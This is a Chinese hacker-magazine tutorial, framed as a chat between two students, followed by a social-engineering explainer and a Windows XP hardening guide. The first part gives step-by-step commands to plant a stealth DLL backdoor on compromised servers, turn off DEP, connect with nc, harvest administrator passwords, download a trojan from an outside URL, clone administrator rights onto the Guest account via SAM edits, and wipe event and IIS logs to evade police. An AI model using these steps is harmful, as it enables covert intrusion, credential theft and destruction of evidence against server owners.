，不是说一天25小时待命的吗？我还是去QQ上找他好了。”

此时的阿布正一边开着QQ一边浏览MM图片站，不想却被一阵万恶的嘀嘀声所惊扰。当看到燕妹妹的头像跳动起来，心里还是恐慌的急忙把傲游关掉了，问候道：“Hi，美女！有什么可以为您效劳的吗？”燕妹妹送上一个笑脸：“咦？还真的在线……哎！手机怎么关机了，害的我找不到你。”经过一番解释，原来是阿布的手机由于忘记充电而自动关机了。燕妹妹继续问道：“对了，自从上次的学习之后，我已经仔细记录了服务器的信息，而且也对服务器有了不少的了解，那教我下一步需要做什么吧！”阿布严肃地说道：“嗯，还不错嘛！那好，今天就来教你怎样种马、克隆和清理日志。”

在了解服务器的信息之后，相信大家都对服务器有了更深一层的了解，那么也想好了拿这台服务器做什么用了吧。不管你拿服务器做什么用，都必须有一个前提：你需要对服务器长期的控制，而且不能被管理员发现。给服务器放置一个超级无敌的后门，这样就可以长期霸占它了。对于服务器来讲权限的凭证就是帐号，那么拥有一个超级权限的帐号当然是事半功倍的了，但是新建一个管理员帐号又太显眼，就请克隆来一显身手吧，复制一个和管理员权限一样的Guest用户出来。要想不被管理员发现，就得了解管理员可能会通过哪些方法来发现你的踪迹，然后针对这些方法做出反击，就相当于把管理员的眼睛蒙起来，这样我们在服务器上做什么都不会有人来阻挠了。

#### 第一部分：服务器黑客之门

后门，又见后门！早在前几期杂志上我就介绍过了，只不过当时主要是为普通肉鸡配置后门，而现在则是针对服务器放置后门。那么普通肉鸡的后门和服务器后门又有什么不同呢？这主要是由于服务器的特殊性而造成的，比如灰鸽子自身带有摄像头截取功能，而哪个服务器上会装摄像头呢？还有就是普通肉鸡上的后门比较容易被查杀，特征码不好定位，而针对服务器的后门则需要超高的隐蔽性和稳定性，因为服务器可比普通肉鸡要珍贵的多了。另外一点，就是针对服务器的后门在功能上可以要求的低一些，最低的只需要拥有一个CMD功能即可，但是针对一些特定的功能还是需要的，比如开启3389、TELNET等功能。

黑客之门就是一款非常优秀的服务器后门，它只有一个DLL文件，通过感染系统文件来启动自身，被感染的系统文件大小和日期都不会改变，同时它还采用了线程插入技术，本身没有进程，不开端口，而是重用系统进程来打开任意一个端口，比如80、135、139、445等，这使得它很容易穿透防火墙，目前还没有工具能够发现它。它作为黑客终极利器的最大特点就是独特的文件感染启动方式和端口重用技术，不是精品我不推荐的。

首先打开黑客之门的配置程序，可能大家要问了：“不是说只有一个DLL文件吗？DLL文件也需要配置吗？需要配置什么呢？”DLL文件也是一个服务端，只是不能自己运行，而是通过其它EXE程序调用罢了，需要配置的信息当然就是密码了，要不然谁都能连接到你的服务器上，那还了得！我们在“连接密码”处输入修改后的密码，点击“保存”按钮后程序会要求输入原密码以确认我们的身份，原始密码为“yyt_hac”，最后点击“确定”，一个DLL后门就这样配置完毕了，相当简单吧（图1）。由于黑客之门DLL文件的默认文件名为hkdoordll.dll，为了更好的隐蔽，我将文件名更改为了system.dll。如果大家在配置之前就将其改名的话，那么在配置的时候就会出现一个警告框，提示找不到默认的那个hkdoordll.dll文件（图2），只需要在配置程序中点击“浏览”按钮选择我们修改过文件名的DLL文件即可。接下来就是将这个配置好的system.dll文件复制到系统盘的SYSTEM32目录下（图3），在Windows2000下默认“C:\winnt\system32\”目录，在Windows2003下默认“C:\windows\system32\”目录。


图1


图2


图3

现在来安装黑客之门，黑客之门有两种安装方式：感染系统文件的安装方式和通过svchost启动服务的安装方式。前者不能在3389环境下来安装，由于我们控制服务器通常都是使用的3389终端服务，所以需要使用后一种安装方式，如果大家使用Radmin或PcAnyWhere控制服务器的话也可以考虑使用前一种安装方式。

##### 一、感染系统文件的安装方式

打开一个CMD窗口，使用CD命令切换到系统盘的SYSTEM32目录下，注意“DllRegisterServer”是大小写敏感的，在CMD下执行命令 `C:\WINDOWS\system32>rundll32 system.dll,DllRegisterServer conime.exe 1 1`。上面的安装方式只感染进程，而不感染系统文件，电脑重启或进程退出后门也就退出了，适用于在自己的电脑上进行测试。

其中system.dll是黑客之门的服务器端，必须存放到system32目录下，conime.exe是我们要感染的进程，默认是services.exe，如果要感染系统文件，在system32目录下的不用带路径，其它的就要带上路径才行，第一个1是安装方式，0表示只感染系统文件，1表示只感染进程，2表示感染系统文件，同时感染进程，默认为2；第二个1是启动方法，0是通过创建svchost启动的服务来启动后门，1是通过感染系统文件来启动后门，默认是1。

命令 `C:\WINDOWS\system32>rundll32 system.dll,DllRegisterServer` 是默认安装方式，它会感染services.exe文件，以便在系统重启时启动后门，同时把自己加载到services.exe进程中，注意除了csrss.exe、smss.exe外，其它的系统文件都可以感染。一般情况下使用这种默认的安装方式即可，既省时又省力。

安装命令执行完后是没有任何反应的（图4），那么如何来判断是否安装成功呢？我们可以看system.tmp里的信息，它存放在%winnt%\temp目录下（图5）。在Windows2000下默认为“C:\winnt\temp\”目录，在Windows2003下默认为“C:\windows\temp\”目录。使用记事本打开system.tmp，如果看到“Start hacker's door successfully!”就说明安装成功了（图6）。


```
7/26/2008 21:31:26 1:0
ModTh:Flag=2,ModTh:ModThFlag=1,ModTh:StartModTh=1, Param[0]
7/26/2008 21:31:26 1:0
Process 776 attach...
7/26/2008 21:31:26 1:0
Conime file opened
7/26/2008 21:31:26 1:0
Entering DLL PROCESS_ATTACH,Process:services.exe
7/26/2008 21:31:26 1:0
Begin to start hacker's door....
7/26/2008 21:31:26 1:0
Loading "system.dll";
7/26/2008 21:31:26 1:0
Loaded (0x10000000)
7/26/2008 21:31:26 1:0
OS system Info:Version:Windows nt 5.2 build:3790 Service Pack:2.0
Product type:Windows 2000/xp/2003 Server
LastErr:0
Start hacker's door successfully!
7/26/2008 21:31:26 1:0
```

##### 二、通过svchost启动服务的安装方式

打开一个CMD窗口，在系统盘的SYSTEM32目录下执行命令 `C:\WINDOWS\system32>rundll32 system.dll,DllRegisterServer 服务名 2 0`。注意，这种方法可以在3389终端中直接进行安装。其中“服务名”必须合法，例如命令为“C:\WINDOWS\system32>rundll32 system.dll,DllRegisterServer Iprip 2 0”，就是创建用svchost.exe来启动的Iprip服务来启动黑客之门，如果大家不知道有什么合法的服务名，可以先随便输入一个，然后到日志（system.tmp）里去查看合法的服务名列表。程序在查找svchost所能启动的服务时如果找不到就会返回当前系统中能够使用的合法服务名列表，所以输入完之后只要查看那个名为“system.tmp”的文件就可以知道合法的文件名有哪些了，我也给大家简单整理了一个列表，如下：AelookupSvc、AppMgmt、AudioSrv、Browser、CryptSvc、DMServer、EventSystem、HidServ、Ias、Iprip、Irmon、LanmanServer、LanmanWorkstation、Messenger、Netman、Nla、Ntmssvc、NWCWorkstation、Nwsapagent、Rasauto、Rasman、Remoteaccess、


## 菜鸟学堂

### 2008 合订本下卷

Sacsvr, Schedule, SecLogon, SENS, Sharedaccess, Themes, TrkWks, TrkSvr, WZCSVC, Wmi, WmdmPmSp, winmgmt, xmlprov, BITS, wuauserv, ShellHWDetection, helpsvc, WmdmPmSN。

同样，在安装命令执行后也是没有任何反应的（图 7），查看是否安装成功的方法也是通过那个名为“system.tmp”的文件。如果按照上述两种安装方式安装时出现了“内存位置访问无效”的错误（图 8），就需要先将系统的数据执行保护（DEP）功能关闭掉才行，怎么关闭呢？只需要打开服务器系统盘（默认为 C 盘）下的 BOOT.INI 文件，修改为“/noexecute=AlwaysOff”（图 9），这样 DEP 在服务器重新启动之后就关闭了。在桌面上右键点击“我的电脑”，选择“属性”，切换到“高级”选项，点击性能的“设置”按钮，然后再选择“数据执行保护”选项，如果看到下面的选项全部为不可操作的灰色状态就证明已经将 DEP 关闭了（图 10），这样就可以按照上述的两种安装方式来进行安装了。


图 8

```
[boot loader]
timeout=30
default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS
[operating systems]
multi(0)disk(0)rdisk(0)partition(1)\WINDOWS="Windows Server 2003,
Enterprise" /noexecute=AlwaysOff /fastdetect
```

图 9


图 10

> **小知识：什么是数据执行保护（DEP）功能**
>
> 数据执行保护（DEP）是一套软硬件技术，能够在内存上执行额外检查以帮助防止在系统上运行恶意代码。DEP的主要优点是可以帮助防止数据页执行代码。通常情况下，不从默认堆和堆栈执行代码。硬件实施DEP检测从这些位置运行的代码，并在发现执行情况时引发异常。软件实施DEP可帮助阻止恶意代码利用Windows中的异常处理机制进行破坏。

在安装完成后就可以在本地进行连接了，黑客之门提供了两种连接方式：使用NC进行连接和命令行客户端连接。既然可以使用NC进行连接，那为什么还要开发专门的命令行客户端（hdclient.exe）呢？这是因为在命令行客户端连接方式中可以传输文件，在这种方式的命令行窗口中可以使用一些不即时退出的程序，比如ftp等，也可以登录到其它的命令行的后门中，比如黑客之门。

#### 一、使用 NC 的连接方式

在本地打开一个CMD窗口，输入命令`nc -vv 192.168.10.250 80`（图11），它的意思就是使用NC的高级连接模式连接IP为“192.168.10.250”主机的80端口。由于这个服务器开放了WEB服务，所以就连接了80端口，这样连接也非常隐蔽，不用担心管理员使用netstat或者fport来查看当前开放连接的端口。


图 11


图 12

在NC提示已经连接到对方80端口的时候，就需要输入如下的命令`NCLOGIN 1314521`，其中的“NCLOGIN”为黑客之门的验证字符，也可以理解为是卧底的接头暗语。“1314521”就是给黑客之门配置的密码了。在密码验证通过后，就会看到黑客之门的欢迎界面了，而且系统提示只需要输入“？”就可以获得详细的功能菜单了（图12）。

#### 二、命令行客户端连接方式

在本地打开一个CMD窗口，切换到hdclient.exe所在的目录下，直接输入“hdclient.exe”，查看它的提示信息，程序给出了使用命令行客户端（hdclient.exe）的使用方法，例如输入`D:\hack>hdclient.exe 192.168.10.250 135 -p 1314521 -t 1`命令，就是使用密码为“1314521”，连接方式为“1”，连接到IP为“192.168.10.250”主机的135端口上（图13），命令执行后，程序会自动提示当前的连接状态，如果密码验证通过的话，就会看到黑客之门的欢迎界面了（图14），而且系统也会提示只需要输入“?”就可以获得功能菜单了（图14），可以看到在这种连接方式中，多了几项功能，我们稍后进行讲解。


成功连接后来看看这个黑客之门到底都有什么本事：“hdver”命令可以查看当前黑客之门的版本，可以看到目前我们使用的版本为1.2（图15）；“findpass”命令只能够运行在使用Windows2000系统的服务器中，它可以查看当前登录在服务器上的帐号的密码信息，从图中可以看到当前登录的帐号为“Administrator”，其密码为“1314521”，使用这个命令可以轻松的获取管理员的密码。


“open3389”命令可以开启服务器的3389终端服务，如果不加任何参数默认终端端口为3389。如果想在其它的端口开启3389服务，只需要用这样的命令`open3389 8888 /r`，意思就是开启服务器的3389终端服务，并绑定在8888端口上，而且还会让服务器自动重新启动以加载配置参数。
“opentelnet”不用多说就是开启服务器的TELNET服务了，如果不加任何参数的话默认端口为23，如果在其它的端口开启TELNET服务，需要使用这样的命令`opentelnet 7777`，便可以开启服务器的TELNET服务，并绑定在7777端口上，而且还可以自动启动TELNET服务，不需要重新启动服务器。
“getsysinfo”命令就是获取当前服务器的系统信息，从图16中可以看到当前服务器只有一个CPU，系统为Windows NT 5.2（Windows 2003），计算机名为66C18A4702CF41B，系统目录为C:\WINDOWS\system32，当前系统方式为本地系统等信息。


“pslist”命令可以获得当前系统所运行的进程信息，前面的数字为进程的PID号，后面就是进程所指向的EXE程序了（图17）。如果想关闭哪个进程的话，可以执行`pskill 2052`，就可以关闭PID为“2052”的进程了，在关闭成功后会提示信息“The Process has been killed!”。


使用`winexec "net user cc cc /add"`命令只会运行`net user cc cc /add`这一条CMD命令（图18），并且没有回显，它的好处是运行之后仍然会返回到黑客之门的环境下。`geturl http://www.51ruankao.cn/muma.exe c:\muma.exe`命令会将事先保存在“http://www.51ruankao.cn/muma.exe”的木马文件下载到本地并保存为C盘下的muma.exe，在下载完毕后会返回提示信息“Download the file successfully!”。`openshell`命令可以打开一个CMD的SHELL，并且会自动切换到SHELL环境下，可以使用它完成一系列的操作，例如执行“net user”命令查看当前服务器中的用户，可以看到刚才添加的cc用户，它的好处当然就是可以回显了。和普通的CMD一样，如果需要退出CMDSHELL，输入“exit”即可。
上面介绍的这些功能在两种连接方式中都存在，再来介绍几条只在命令行客户端连接方式才有的命令：“getdisk”命令可以获取当前服务器的所有磁盘盘符（图19）。“getdir c:\”命令可以获取C盘根目录下的所有目录信息。“getfile c:\logfile.txt d:\1.txt”命令可以将服务器中C盘下的logfile.txt传送到本地的D盘下，并改名为1.txt，在传送完毕后会给出提示信息“Get file successfully!”。“putfile d:\1.txt c:\111.txt”命令可以将本地D盘下的1.txt文件传送到服务器的C盘下，并改名为111.txt，在传送完毕后会给出提示信息“Put file successfully!”， “exitshell”命令是用来退出黑客之门的。


#### 第三部分：克隆管理员帐号

克隆管理员帐号是指在服务器上使一个不属于管理员组的帐号具有与管理员一样的权限，而且还要让其他人看不出来。好处就在于登录这个不属于管理员组的帐号，就可以享受到管理员的待遇，什么待遇？当然是至高无上的系统权限了。

在克隆帐号之前必须要给我们克隆的帐号修改密码，比如我们要把Guest克隆到Administrator，就要先把Guest的密码改掉，因为Guest在克隆完毕后是不能更改的。而且还要尽量在CMD下面进行更改，以防意外发生（图20）。


依次打开分支“HKEY_LOCAL_MACHINE\SAM\SAM”，我们会发现此分支下没有任何信息，但事实上不是没有信息，而是我们没有权限罢了。那么怎样来添加权限呢？只需要在最后一个SAM分支上点击右键选择“权限”，给“Administrators”组添加上“完全控制”权限即可，然后按F5刷新一下或者重新启动注册表，我们就可以进入SAM分支看到它的内容了。


打开名为“Administrator”的分支，我们会发现它的类型为“0x1f4”（图22），它所对应的就是上面的“000001F4”分支；名为“Guest”的分支类型为“0x1f5”，对应的就是上面的“000001F5”分支。打开“000001F4”分支，可以看到右侧的“F”和“V”键值（图23），这两个键值就是克隆的关键所在。


打开“开始”－“运行”栏，输入“regedit”进入注册表。第一种克隆方法是将“Administrator”对应的“000001F4”分支的“F”键值覆盖“Guest”对应的“000001F4”分支的“F”键值（图24），只需要双击“F”键值，然后选中全部的数值数据，点击右键选择“复制”，然后使用“粘贴”的方法将“F”键值的数值数据覆盖即可。待服务器重新启动后，便可以使用Guest通过3389登录服务器了。通过这种方法在任务管理器中可以看到登录的帐号为“Administrator”，但是在打开开始菜单后却显示为“Guest”（图25）。


另一种克隆方法是将“Administrator”对应的“000001F4”分支的“F”、“V”键值覆盖“Guest”对应的“000001F4”分支的“F”、“V”键值。操作方法也和前面的一样，在覆盖完毕后也需要重新启动服务器。和第一种方法不同的是，虽然也使用“Guest”帐号登录（图26），但是在任务管理器和开始菜单中都可以看到登录的帐号为“Administrator”（图27）。


如果大家感觉手工克隆操作比较琐碎的话，还可以使用现成的工具代劳。打开一个CMD窗口，切换到克隆工具（Clone.exe）的目录下，直接输入“Clone.exe”就可以看到该工具的提示信息。例如要将Guest帐号克隆成Administrator帐号，则输入`Clone.exe Guest Administrator`即可。工具会自动将Administrator的F键值覆盖掉Guest的F键值，不过在克隆前还是需要先将我们要克隆的帐号（Guest）的密码改掉（图28）。


#### 第三部分：清理入侵痕迹

经常听说有人通过 3389 终端服务进入服务器后，肆意的破坏、删除磁盘的文件资料，然后被警察叔叔请去喝茶的事件，那么警察叔叔们是怎样找到他们的呢？当然是查到 IP 地址后，根据 ADSL 等拨号上网来确定家庭地址的。那么警察叔叔又是怎样得知我们的 IP 等信息的呢？还记得上期讲到的系统日志吗？还记得那个 Windows 系统的“安全性”日志吗？不错，它就可以记录我们登录服务器的 IP 地址（图 29）。

可以泄漏 IP 地址等信息的不光只有系统日志，还有 IIS、FTP 等日志，比如通过 SQL 注入成功入侵一个网站，就会留下充足的 IIS 日志信息。这样说来，各种在入侵中涉及到的日志最好还是清理一下的好，免得下次就是警察叔叔陪你喝茶了。


图 30

由于清理日志信息的工作比较繁琐，所以就直接给大家介绍两款工具：第一款工具是一个命令行方式下执行的工具，我们打开一个 CMD 窗口，切换到 “日志清除器” （cl）所在的目录下，直接执行 “cl” 就可以返回日志清除器的使用说明（图 30），并且给出了几种清理方案：

- 1. `cl -LogFiles 127.0.0.1` //清理指定 IP 地址的日志（本机）
- 2. `cl -LogFiles 192.168.0.1 c:\winnt\system32\LogFiles\` //自定义日志文件的目录
- 3. `cl -filter:on/off` //开启或者关闭 TCP/IP 筛选
- 4. `cl -eventlog:ALL` //清理所有的系统日志
- 5. `cl -eventlog:Security` //清理系统的安全性日志

一般情况下，我们使用第 1 条和第 4 条搭配，就可以轻松的清理掉入侵痕迹了（图 31）。


图 31

第二款工具也是运行在 CMD 下的，直接执行 “CleanIISLog.exe” 就可以获得工具的使用说明了（图 32）：第一个参数为是否自定义日志文件的保存位置，如果不指定的话直接使用 “.” 代替即可；第二个参数为是否自定义清除哪个 IP 地址上的日志，如果不指定的话直接使用 “.” 代替即可。一般情况下，只需要一个命令 `CleanIISLog . 192.168.1.100` 就可以将 IP 地址为 “192.168.1.100” 的所有日志信息都清理干净了（图 33）。


图 32


图 33

（文章中涉及到的黑客之门、nc、clone、cl、CleanIISLog，已经收录在光盘中）☑

## 黑客术语小补习

### 什么是社会工程学

总体上来讲，社会工程学就是使人们顺从你的意愿、满足你的欲望的一门艺术与学问。它并不单纯是一种控制意志的途径，但它不能帮助你掌握人们在非正常意识以外的行为，且学习与运用这门学问一点也不容易。

它同样也蕴涵了各式各样的灵活的构思与变化着的因素。无论任何时候，在需要套取到所需要的信息之前，社会工程学的实施者都必须掌握大量的相关知识基础、花时间去从事资料的收集与进行必要的如交谈性质的沟通行为。与以往的入侵行为相类似，社会工程学在实施以前都是要完成很多相关的准备工作的，这些工作甚至要比其本身还要更为繁重。

在安全领域，社会工程就是黑客利用人与人之间的交往，取得被信任者的信任；然后就是想干就干呗！社会工程是一种非技术手段的黑客行为，利用了网络安全体系中没有办法控制、没有办法打补丁的一个因素——人。简单介绍一下著名的判例：Mitnick 的社会工程案例：一名黑客给 Microsoft 的网管发了一封邮件，声称自己是 Microsoft 的员工，在邮件中说自己忘记密码了；太笨的网管就发送了新的密码给这个人；黑客由此就轻松的完成了入侵。关于这方面的详细信息，建议大家看看美国著名黑客 Kevin. Mitnick 所写的《欺骗的艺术》一书，文笔很好；可以当小说来看的。网上可以下载到，大家也可以到 http://sagi.org.cn 来下载。

## 菜鸟修行

### 如何让你的操作系统变得更安全？

阿布（周五杰）

十一长假要来临了，只是小气的学校只放三天，这短短的三天时间干啥好呢？回家一天、在家一天、回来一天，时间太短了，就不回家了。燕妹妹一个人躺在床上数着脚趾头想着……

第一天和宿舍姐妹们出去逛街，顺便买了好多好吃的零食和漂亮的衣服，累的燕妹妹腰酸背疼腿抽筋，嘴里不停的嘟囔着：要是布哥哥和我一起出去就好了，可以帮我拿东西，顺便还能给点参考意见呢。在返回学校的160路公交车上真是人山人海，锣鼓喧天哟，终于晃晃悠悠的回到了宿舍，立马倒床便睡，呼～呼～呼～～

等燕妹妹睡醒，天色已经黑了，一看表，哇塞，都七点了。环顾一下四周，发现一个个没良心的都跑去约会了，只剩下自己一个人“独守空房”。首先得解决吃饭问题，从柜子里拖出今天买的零食，一包包的就开始吃了起来。

打开电脑看看今天都有什么新闻，开始启动Windows XP，当进入到系统的时候才发现电脑有些异常，反应慢的要死。打开任务管理器，发现了很多乱七八糟没有见过的进程，燕妹妹自言自语道：“难道这就是传说中的中毒吗？”怎么办？怎么办？怎么办？对了！找阿布哥哥去，于是就急忙登录了QQ寻找阿布的头像，但却失望的发现阿布竟然不在线，先留言给他吧。可就在留言刚发出去的时候，就听到QQ嘀嘀嘀的叫了起来，原来这家伙在线啊！

经过阿布的一番检测，终于发出了最后通牒：“美女，不杀毒了，挺麻烦的，而且还不一定能杀干净，重装系统吧，顺便我也教教你如何让自己的系统变得更安全……”燕妹妹看着自己安装了N多软件的XP系统无奈的点了点头，心里想：跟着阿布哥哥学习这么长时间了，还真没顾及到自己XP系统的安全性问题，是需要在这方面补补课了，不管怎么说自己也是计算机专业，以后给别人安装一个安全的操作系统那脸上也有光啊。


图1


图2


图3

#### 一、纯手工配置安全的XP系统

一个安全的操作系统就是一个稳定的系统平台，只有在一个安全稳定的系统平台上应用程序才能高效的运行。在选择操作系统的时候也是需要注意的，比如一般用户选择使用WinXP系统即可，如果经常接触服务器或者需要较高的安全性则最好选择Win2003系统。目前网络上流行着许多XX版的操作系统都是给人做过手脚的，先不说这些操作系统是否存在安全问题，单说他们改动的地方就真的适合你吗？而且通常还会安装一些流氓插件或者设置主页什么的，虽然是为了他们的生意，但是否想过我们使用者的心情呢？所以在选择操作系统的时候我还是推荐使用原版的操作系统，不过也有一些例外的情况，比如深度出的精简版系统就相当不错。


## 菜鸟学堂 2008合订本下卷

性能上将得到提升，另一方面在安全性上也能得到不同程度的提升。

开启了哪些服务（图4），这是安装完操作系统后最应该优化的地方，因为有很多没有用的服务都被微软定义成了默认开启状态，不仅浪费系统资源，更容易惹出些什么漏洞来。我精简服务后一般只保留如下的一些基本服务（图5）：


- Computer Browser：如果不需要局域网共享的话，就禁用。
- DHCP Client：如果IP地址是静态的，不需要自动获取IP地址的话，就禁用。
- Print Spooler：如果没有打印机的话，就将这个服务禁用。
- Server：如果不需要局域网共享的话，就禁用。
- Shell Hardware Detection：如果不需要自动播放硬件功能就禁用。
- SSDP Discovery Service：如果所在的网络不允许使用UPNP的话，就禁用。
- System Restore Service：这个系统还原功能纯属鸡肋，禁用掉。
- TCP/IP NetBIOS Helper：不需要对NetBIOS做解析，禁用掉。
- Themes：如果不使用个性的XP主题，就禁用。
- Windows Time：系统校对时间纯属鸡肋，禁用掉。
- Wireless Zero Configuration：如果没有无线网卡，就禁用。
- Workstation：如果不需要局域网共享的话，就禁用。

至于其它的一些服务，大家可以参照服务的描述信息决定是否保留，努力将系统服务最简化。一方面在性能上将得到提升，另一方面在安全性上也能得到不同程度的提升。

打开“控制面板”中“管理工具”下的“本地安全策略”，选择“本地策略”下的“用户权利指派”（图6），在这里可以设置各个用户在系统中的各项权利，比如可以设置只有管理员才可以更改系统时间、拒绝GUEST用户从本地登录等等一些措施以使系统变得更安全、更强劲。再切换到“安全选项”，在这里可以设置系统的一些安全选项（图7），比如一般情况下每个 Windows 系统都会存在一个名为 Administrator 的内置管理员帐号，并且这个帐号是无法删除的，如果恶意用户进行暴力破解的话就不安全了，使用“重命名管理员帐户”功能就可以更改这个内置帐户的用户名，这样可以使恶意用户的暴力破解成为泡影，更增强了系统的安全性。


在“开始”--“运行”栏输入“gpedit.msc”就可以启动“组策略”（图8），这里面有丰富的系统设置，包括了系统性能设置、用户个性化设置、系统安全性设置等。


在一个安全的操作系统中网络防火墙是不可或缺的，XP 系统也自带了防火墙，打开“控制面板”下的“防火墙”，选择“启用”后就可以开启 XP 系统自带的网络防火墙了（图9），它可以阻止所有未经允许的连接，当然有时也是需要开放一些端口或者规定一些程序可以随便进出防火墙的，那么就需要转到“例外”选项来设置了（图10）。可以通过“添加程序”和“添加端口”来添加不需要防火墙阻挡的例外选项，如果不想让哪个程序或者功能通过防火墙的话，只需要将其前面的小勾取消掉即可。我们还可以更改连入 IP 地址的范围：使网络上任意主机连接、使子网上任意主机连接、使设置的自定义列表中的主机连接。当一个程序想开放端口进行网络连接的时候 XP 防火墙会自动蹦出来询问你是否允许其执行该操作，通过这一系列的防火墙设置，现在的 XP 系统已经可以称为铜墙铁壁了。对于小菜来说，XP 系统自带的防火墙差不多就够用了，如果各位还不满意的话，还可以安装其它防火墙，比如天网防火墙、黑冰防火墙等。


有一点需要注意，如果是因为中毒、中木马而重新安装操作系统的话，在重新安装完操作系统后不要访问除系统分区（一般为 C 盘）外的其它分区，以防止再次感染病毒、木马等，此时需要先做好系统的安全设置，再安装好杀毒软件、360安全卫士等进行全盘扫描，将病毒木马给揪出来。如果微软发布新的漏洞补丁还会提醒你进行安装。

#### 二、360 + NOD32 将流氓病毒一扫光

现在网络上的流氓软件实在是太多了，稍不留神就会中招，流氓软件虽然不会对系统造成太大的破坏，但也非常的烦人。360安全卫士就这样应运而生了，它是一款专门用于对付流氓软件的克星，目前基本上已经成了装机必备的一款工具。打开IE到360安全卫士的老家（http://www.360.cn/）将最新版的360安全卫士下载回来后双击安装，一路点击NEXT就可以安装成功了。注意在安装的过程中需要选择是否“开启主要实时保护”（图11）。


启动360安全卫士后，它会自动显示当前系统的基本状态（图12），初次使用需要进行系统安全体检。切换到“查杀流行木马”就可以扫描并且查杀当前的木马病毒等，切换到“清理恶评插件”就可以清理当前系统中所存在的流氓软件（图13），点击“开始扫描”后就会查找出系统中存在的插件，并将根据用户对该插件的评价进行分类，其分为恶评插件、其它插件、信任插件。可以将自己常用的360实时保护模块或者迅雷下载组件等添加为信任插件。切换到“管理应用软件”可以查看当前系统中所有安装的软件，并且已经分类过了，而且还给出了一些装机必备的软件、流行软件、流行游戏等信息。再切换到“修复系统漏洞”就可以查看当前系统都存在哪些漏洞（图14），另外360安全卫士还会提供各项漏洞的修复方法，如切换到“高级”下的“修复IE”，就可以对IE进行一些常规性的修复操作，比如恢复HOSTS文件为默认状态、恢复IE首页、恢复IE搜索页、恢复被禁用的IE选项等功能。切换到“启动项状态”可以查看当前系统在启动的时候都有哪些程序跟着启动（图15），有些木马也会在这里出现原形的。


切换到“系统连接状态”可以查看当前系统正在联网的网络连接，可以查看哪个进程正在通过本机的哪个IP地址的哪个端口和哪个IP地址的远程主机的哪个端口进行连接。再切换“保护”下的“开启实时保护”，可以查看到当前360安全卫士所启用的保护功能（图16），大家可以根据自己的网络情况进行选择。


杀毒软件很早就成为了装机必备的软件，因为网络上的病毒实在太多太多，而且每天都以极快的速度增长着。一个病毒木马就会让你的爱机死的很惨，不管是程序、系统还是大家的宝贵数据，都是一个致命的损害。但是有些朋友总是认为安装好杀毒软件就可以高枕无忧了。其实不然，还需要实时更新杀毒软件的病毒库才行，否则你的杀毒软件就是一个彻底的摆设，这是由反病毒技术的流程来决定的（图17），只有更新病毒库才能保持杀毒软件的强悍，当遇到已知的病毒时，杀毒软件就会将其擒获。


> 小知识：一般的反病毒技术流程
> 当用户发现计算机出现异常现象，怀疑可能被病毒感染，具有一定反病毒知识的用户将可疑文件通过邮件等方式发送给反病毒公司。反病毒公司收到可疑文件后，由病毒分析工程师进行人工分析，如果认定是病毒，则从病毒代码中提取病毒的特征值，然后制作升级程序并将升级程序在互联网上发布。最后，用户升级杀毒软件后，就能对这个病毒进行查杀。

在最近几年的杀毒软件评比中，NOD32杀毒软件一直是遥遥领先，其以占用系统资源小、运行高效而著称，适用于WindowsNT/2000/XP/2003/Vista/x64操作系统。NOD32防病毒系统由多个系统组件模块构成，每个模块完成不同的功能：

- AMON 文件系统监视器
- DMON 微软 Office 文档监视器
- EMON MS Outlook 电子邮件监视器
- IMON Internet 网络监视器
- NOD32 手动扫描仪


NOD32的安装非常简单，记得在安装的时候需要选择“高级”或者“专家”模式（图18），否则网络监控模块将无法安装，安装完成后需要重新启动系统才能正常加载NOD32。

启动NOD32后我们会看到其简洁的使用界面（图19），点击每个系统组件模块就可以看到各项功能的实时监控状态和控制选项。安装杀毒软件最让小菜们头疼的就是自己心爱的黑客工具都被杀毒软件当作病毒给咔嚓了，在NOD32中只需要进入“AMON”文件系统监控器，点击“设定”按钮进入“AMON设定”界面，切换到“排除”选项（图20），将自己心爱的黑客工具所在的文件夹或者文件添加进来，以后NOD32就再也不会乱来了。


NOD32升级病毒库是需要升级ID的，大家可以使用网上公布的升级ID或者升级服务器进行更新病毒库，升级ID可以从“http://www.nod321.com”网站上获取（图21）。进入NOD32的更新模块（图22），可以设置升级服务器和升级ID等信息，NOD32默认每一个小时就会自动检测是否要更新病毒库。


NOD32的好用之处在于，在安装配置完毕后几乎不需要再次设置，让人感觉到非常的安心、省心，而且我在使用过程中也发现它是我使用过的杀毒软件中占用系统资源最节省的。


#### 三、微点主动防御阻断未知病毒

据德国AV测试实验室介绍，2007年出现了约550万个通过互联网传播的恶意程序，反病毒公司每天需要分析1.5万至2万个新病毒，这使得反病毒公司的日均工作量增加至2006年的4倍，更是2005年的15倍。另外，目前的黑客技术正逐渐被普及化，免杀技术已经不再象以前那样的神秘，在每期的黑客X档案杂志中就会介绍很多实用的免杀知识，相信大家也制作出不少的免杀版本了。不需要重新编写病毒程序，只需要经过简单的加壳、加花指令、定位并修改病毒特征码等技术方式的处理，在很短时间内就可以大规模的批量制作出可躲避传统杀病毒软件查杀的木马变种。

传统的杀病毒软件根据它们的一般工作流程也显示出了一个致命的缺陷：那就是在用户升级之前，用户计算机上的杀病毒软件是无法阻止新型病毒的感染和破坏的。既然反病毒公司的技术人员可以通过分析程序行为而准确判定一个程序是否为病毒，那么能否将这种分析判断过程自动化、程序化呢？

微点主动防御技术正是根据这种思路设计而来（图23），通过对病毒行为规律分析、归纳、总结，并结合反病毒专家判定病毒的经验，提炼成病毒识别规则知识库，模拟专家发现新病毒的机理，通过分布在操作系统中的众多探针，动态监视所运行程序调用各种应用程序编程接口（API）的动作，将程序的一系列动作通过逻辑关系分析组成有意义的行为，再综合应用病毒识别规则知识，实现自动判定病毒。微点适用的操作系统为 Windows2000/XP/2003/Vista/2008。


从微点的老家（http://www.micropoint.com.cn/）下载一个试用版本，试用期为一个月，按照程序的提示安装完成，注意在进入“客户信息”的窗口时微点会自动分配一个序列号（图24），这个序列号是试用版本的序列号，如果你购买了微点正式版的话就填入获得的正版序列号。接着进入“产品注册”的窗口，在此处需要进行简单的联网注册，否则试用期内微点是不能升级的（图25）。


重新启动后就可以自动启动微点了，默认会打开当前的“进程综合信息”功能（图26）。为了方便使用，微点提供了重要的快捷按钮：查看——查看进程综合信息；诊断——诊断当前系统中的可疑程序；扫描——扫描并报告系统当前存在的已知漏洞；设置——迅速打开程序行为实时监控策略设置窗口；升级——更新微点主动防御软件程序和已知病毒特征库。微点的智能窗口实时显示计算机系统进程数量以及计算机与外界网络的通讯状态，并通过IP地址地理信息库可以定位到本计算机与互联网络中通讯的远程计算机的地理位置。


微点也是由几个大功能模块组合而成的：

- 安全防护与策略模块——设置微点主动防御软件。
